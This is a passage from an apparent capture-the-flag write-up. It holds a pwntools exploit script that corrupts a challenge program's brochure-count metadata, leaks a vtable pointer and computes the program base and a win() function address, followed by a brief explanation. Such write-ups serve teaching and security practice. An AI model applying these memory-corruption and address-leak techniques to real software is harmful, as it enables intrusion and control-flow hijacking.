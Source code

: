 ```py

# fake brochure curr max
p.sendlineafter(b"option: ", b"2")
p.sendlineafter(b"edit: \n", b"1")
p.sendlineafter(b"option: \n", b"2")
p.sendlineafter(b"added\n", p32(35000)+p32(0)+p32(0)+p32(0)) # add to brochure contents, which will eventually override max brochure value
p.sendlineafter(b"option:", b"7")
p.sendlineafter(b"option:", b"5")
p.sendlineafter(b"choice:", b"4")

# edit cd dvd stand to remove cd
# move the 35000 into max brochure value
p.sendlineafter(b"option:", b"2")
p.sendlineafter(b"edit:", b"1")
p.sendlineafter(b"option:", b"4")
p.sendlineafter(b"Stand", b"2")
p.sendlineafter(b"removed", b"00000000")
p.sendlineafter(b"option:", b"4")
p.sendlineafter(b"Stand", b"2")
p.sendlineafter(b"removed", b"00000000")
p.sendlineafter(b"option:", b"7")
p.sendlineafter(b"option:", b"5")

p.sendlineafter(b"choice:", b"5")
p.sendlineafter(b"option:", b"2")
p.sendlineafter(b"edit:", b"1")
p.sendlineafter(b"option:", b"5")

# start getting leak from here
while True:
    leek = p.recvline()
    # hacky way to search for brochure add title vtable entry
    # guess and check and pray
    if b"\x55" in leek and b"\x4C" in leek:
        id_1 = int(leek.split()[1][:-2])
        print(leek)
        break

leek = u64(leek.split(b": ")[1][8:16][::-1])
base = leek - 29516 # offset
print(f"vtable leak @ {hex(leek)}")
print(f"elf base @ {hex(base)}")
win = base + 0x8054 # offset can be found from static analysis
print(f"win @ {hex(win)}")
```

From the above code block, after spoofing a large max number of brochures, we are able to leak values from the metadata block, which allows us to leak some of the function pointers, which in turn allows us to calculate our `win()` function address. 
